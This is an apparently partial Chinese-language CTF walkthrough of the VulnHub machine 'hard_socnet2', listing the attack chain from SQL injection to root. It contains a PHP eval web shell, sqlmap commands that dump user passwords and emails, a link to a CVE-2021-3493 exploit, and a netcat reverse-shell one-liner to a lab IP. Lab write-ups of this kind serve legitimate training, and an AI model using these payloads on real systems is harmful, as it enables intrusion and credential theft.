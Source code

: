 > 靶机环境介绍
+ [hard_socnet2](https://www.vulnhub.com/entry/boredhackerblog-social-network-20,455/) 
+ 难度等级 <font color=red>高</font>

目标: 取得root权限

**所用技术栈：**
+ 主机发现
+ 端口扫描
+ SQL注入
+ 文件上传
+ 蚁剑上线
+ **XMLRPC命令执行**
+ 逆向工程
+ 动态调试
+ 漏洞利用代码编写



我们进行 `OPTIONS`,`DELETE`,`POST`,`GET`,`PUT` 等一系列方式对服务器进行请求

这个时候我们可以去访问其 80 端口


+ [AntSword Shell Script](https://github.com/AntSwordProject/AwesomeScript) 
+ [Many Demo Shell Download](https://privdayz.com/)


```php
<?php
@eval($_REQUEST['ant']);
show_source(__FILE__);
?>
```

```bash
sqlmap -r req -p query --dbs

sqlmap -r req -p query -D socialnetwork --tables

sqlmap -r req -p query -D socialnetwork -T users --columns

sqlmap -r req -p query -D socialnetwork -T users -C user_password,user_email --dump

```


[CVE-2021-3493 漏洞利用代码](https://github.com/briskets/CVE-2021-3493) 
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.2.7 3333 >/tmp/f
```
